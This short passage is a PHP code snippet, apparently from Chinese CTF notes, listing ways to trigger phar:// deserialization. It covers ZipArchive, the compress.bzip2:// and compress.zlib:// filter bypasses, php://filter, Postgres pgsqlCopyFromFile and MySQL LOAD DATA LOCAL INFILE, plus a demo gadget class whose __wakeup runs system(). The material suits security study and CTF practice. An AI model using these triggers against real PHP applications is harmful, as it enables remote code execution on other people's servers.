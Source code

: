 ```php
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```

### 绕过方式

